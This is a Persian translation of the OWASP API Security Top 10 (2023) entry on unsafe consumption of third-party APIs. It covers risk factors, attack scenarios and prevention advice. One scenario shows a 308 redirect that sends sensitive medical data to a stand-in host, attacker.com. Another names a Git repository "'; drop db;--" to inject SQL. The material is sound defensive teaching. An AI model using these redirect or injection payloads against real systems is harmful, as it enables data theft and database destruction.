 <div dir="rtl" align='right'>

# API10:2023 استفاده ناایمن از APIها
---

| ضعف امنیتی | عوامل تهدید / مسیر حمله | پیامد |
|---------|--------------------|------------|
| خاص API / قابلیت بهره‌برداری: آسان |  میزان شیوع: متداول/ قابلیت تشخیص: متوسط              | پیامد فنی: شدید / خاص کسب و کار
| برای بهره‌برداری از این آسیب‌پذیری مهاجم باید APIها یا خدمات دیگری که با آنها ادغام شده را شناسایی کرده و به آنها نفوذ کند. این اطلاعات به صورت عمومی در دسترس نبوده یا API سرویس‌های آن به آسانی قابل بهره‌برداری نیستند.              | توسعه‌دهندگان معمولا به endpointهای APIهای خارجی یا طرف ثالثی که در ارتباط هستند، اعتماد می‌کنند. آنها این تصور را دارند که الزامات امنیتی ضعیف‌تری مانند امنیت در انتقال اطلاعات، احراز هویت و دسترسی و اعتبارسنجی و تصفیه اطلاعات ورودی، امنیت کافی برای این نقاط را تامین می‌کند. مهاجمان باید خدماتی را که API هدف با آنها ادغام می‌شود (منابع داده) شناسایی کرده و سعی کنند که آنها را مختل کرده یا به صورت غیرمجاز به آنها دسترسی پیدا کنند.     | پیامد این وضعیت به نحوه استفاده از داده‌های بهره‌برداری شده بستگی دارد. بهره‌برداری موفق از این آسیب‌پذیری ممکن است منجر به افشای اطلاعات حساس به اشخاص غیرمجاز شود. انواع مختلف حملاتی که در نتیجه بهره‌برداری از این آسیب‌پذیری ممکن است رخ دهد مانند حملات تزریق‌ها یا DoD خواهد بود.         |



### آیا [^1]API از نظر استفاده ناایمن از APIها ‌آسیب‌پذیر است؟
---
توسعه‌دهندگان معمولاً به داده‌های دریافتی از API‌های طرف ثالث بیشتر از ورودی‌های کاربران اعتماد می‌کنند. این موضوع برای API‌های ارائه شده توسط شرکت‌های معروف بیشتر صدق می‌کند. به همین دلیل، توسعه‌دهندگان عمدتاً استانداردهای امنیتی ضعیف‌تری را در بسیاری از موارد از جمله اعتبارسنجی و تصفیه ورودی اتخاذ می‌کنند.

API‌ها ممکن است در معرض آسیب‌پذیری باشند اگر:

- با سایر API ها از طریق یک کانال بدون رمزگذاری ارتباط برقرار کنند.
- داده‌های جمع‌آوری شده از دیگر API ها را قبل از پردازش یا ارسال به اجزای پایین‌دست به درستی اعتبارسنجی و تصفیه نکنند. 
- محدودیتی در پاسخ‌دهی به درخواست‌های پی‌در‌پی نداشته باشند.
- تعداد منابع مورد نیاز برای پردازش پاسخ‌های سرویس‌های طرف ثالث را محدود نکنند. 
- بازه زمانی محدود برای ارتباط با سرویس‌های طرف ثالث مشخص نکنند.

### مثال‌‌هایی از سناریوهای حمله
---
#### سناریو #1

در این سناریو، یک API از آدرس‌های کسب و کار یک سرویس طرف ثالث استفاده می‌کند. وقتی یک کاربر آدرسی را به API  ارائه می‌دهد، آن آدرس به سرویس طرف ثالث ارسال شده و اطلاعات بازگشتی در یک پایگاه داده محلی SQL  ذخیره می‌شود. اشخاص با نیت مخرب، از سرویس طرف ثالث برای ذخیره کردن کدهای تزریقSQL  (SQLi) استفاده می‌کنند. سپس با بکارگیری API آسیب‌پذیر و درج ورودی‌های خاص، می‌تواند اطلاعات مرتبط با کسب و کار آلوده شده را از سرویس طرف ثالث دریافت کند. در نهایت، کدهای تزریق شده SQL از طریق پایگاه داده اجرا شده و توسط مهاجم به سرور کنترلی ارسال می‌شوند. این کار سبب می‌شود تا مهاجم به طور غیرمجاز اطلاعات را از دیتابیس بازیابی کرده و بر روی سرور خود کنترل کند. 

#### سناریو #2

یک API با یک ارائه‌دهنده خدمات طرف ثالث ادغام می‌شود تا اطلاعات حساس پزشکی کاربران را به شکلی ایمن ذخیره کند. داده‌ها با استفاده از یک درخواست HTTP از طریق برقراری یک اتصال امن، ارسال می‌شوند:
</div>

```http
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```
<div dir="rtl" align='right'>

مهاجمین با نیت مخرب، باعث می‌شوند که این سرویس به جای پاسخ معمولی به درخواست‌ها، پاسخ‌هایی با کد 308 Permanent Redirect ارسال کند. کد 308 به معنای انتقال دائمی است که سبب می‌شود سرویس درخواست‌های کاربران را به مکان دیگری منتقل کند.
</div>

```http
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```
<div dir="rtl" align='right'>

در نتیجه، اطلاعات حساس کاربران به جای ارسال به سرویس طرف ثالث، به سروری تحت کنترل مهاجم، ارسال می‌شود.

#### سناریو #3

مهاجمی یک مخزن Git با نام '; drop db;-- ایجاد می‌کند. وقتی اتصالی از برنامه تحت حمله با مخزن مخرب برقرار شود، برنامه نام مخزن را به عنوان یک ورودی امن در نظر می‌گیرد.

### چگونه از ‌آسیب‌پذیری استفاده ناایمن از APIها پیشگیری کنیم؟
---
- **ارزیابی ارائه‌دهندگان خدمات**: هنگام انتخاب ارائه‌دهندگان خدمات طرف ثالث، امنیت API آنها را به دقت ارزیابی کرده و آن‌هایی را انتخاب کنید که دارای سابقه قوی در زمینه امنیت و حفاظت از داده‌ها هستند.
- **ارتباط امن**: اطمینان حاصل کنید که تمام تعاملات با API‌ها از طریق یک کانال ارتباطی امن (TLS) صورت می‌گیرد. این کار باعث می‌شود که داده‌ها در زمان انتقال رمز شده و از دسترسی مهاجمان به آن‌ها جلوگیری شود. 
- **اعتبارسنجی و تصفیه داده**: همیشه داده‌های دریافتی از API‌ها را اعتبارسنجی و تصفیه کنید. این عمل از حملات مرتبط با تزریق اطلاعات جلوگیری می‌کند.
- **نگهداری لیست مجاز (Allowlist)**: یک لیست مجاز از مکان‌های شناخته‌شده‌ای که API‌ها ممکن است به آنها هدایت شوند را نگهداری کرده و از دنبال کردن مسیرهای دارای مقصد ناشناخته خودداری کنید.

## مراجع
---
</div>

- [OWASP](https://owasp.org/)
- [Web Service Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html)
- [Injection Flaws](https://owasp.org/www-community/Injection_Flaws)
- [Input Validation Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)
- [Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
- [Transport Layer Protection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html)
- [Unvalidated Redirects and Forwards Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)
<div dir="rtl" align='right'>

#### خارجی

</div>

- [CWE-20: Improper Input Validation](https://cwe.mitre.org/data/definitions/20.html)
- [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
- [CWE-319: Cleartext Transmission of Sensitive Information](https://cwe.mitre.org/data/definitions/319.html)



[^1]: Unsafe Consumption of APIs


